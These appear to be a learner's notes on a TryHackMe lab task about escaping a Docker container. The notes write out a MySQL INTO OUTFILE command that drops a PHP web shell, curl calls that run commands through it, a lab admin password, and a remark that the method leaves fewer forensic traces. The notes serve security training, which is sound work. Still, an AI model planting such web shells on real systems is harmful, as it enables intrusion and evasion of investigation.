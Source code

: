 Now that you have identified that you are in a container and have performed all the information gathering and situational awareness you can, you can escape the container by exploiting the remote database.  

There are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.  

For more information about container best practices and docker security, check out this OWASP cheat-sheet, [https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html).  

A method that's not quite as common is Exploitation. Exploits to escape Containers aren't as common and typically rely on abusing a process running on the host machine. Exploits usually require some level of user interaction, for example, [CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/). It can also be beneficial to use a container enumeration script such as DEEPCE, [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce).  

Since we gained access to a remote database, we can utilize it to gain command execution and escape the container from MySQL.  

The basic methodology for exploiting MySQL can be found below.  

- Access the remote database using administrator credentials
    
- Create a new table in the main database
    
- Inject PHP code to gain command execution
    
    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
    
- Drop table contents onto a file the user can access  
    
- Execute and obtain RCE on the host.
    

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.  

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system. We are writing any code that we want onto the remote system from this command, which we can then execute, giving use code execution. Find the command used below.  

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example usage below.  

Example usage: `curl 192.168.100.1:8080/shell.php?cmd=whoami`

---
# Your job

## Break out the container

The key to breaking out here is the fact we have access to that DB. The access we have permits us to write to the database, then we can call our written table enteries.
The following commands are run on the victim machine.
### Access the remote database using administrator credentials

`mysql -u admin -p -h 192.168.100.1`

Password: `!123SecureAdminDashboard321!`

### Inject our PHP code into a table and save the table into a file on the remote system

`select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`


### Accessing 192.168.100.1 machine

- Execute and obtain RCE on the host.
	You can’t view the website via a browser, as you still don’t have a proxy through this box and you only have command line access. So instead you need to use `curl`.
	
	www-data@f988aa7b2fb3:/var/www/html$ `curl 192.168.100.1:8080/shell.php?cmd=whoami`
	
	![[Task 18 - Making Thin Lizzy Proud-20240917142609190.webp]]

- Check that you are talking to a different machine.
	www-data@f988aa7b2fb3:/var/www/html$ `hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143015435.webp]]
	
	www-data@69cd1465ecc9:/var/www/admin$ `curl 192.168.100.1:8080/shell.php?cmd=hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143142963.webp]]


> It should be noted, that the one liner provided by TryHackMe is actually a much better solution as it doesn’t write anything to the database, and therefore will be less logs and if the outfile is removed at the end of the engagement, any forensics might be slightly more difficult (although the command should still show in the MySQL logs!)
>  How does that one liner work? Well basically it just skips writing anything to the table, instead it selects the PHP code and directs it straight into a file.

**Next step:** [[Task 19 - Going%20out%20with%20a%20SHEBANG%21]]
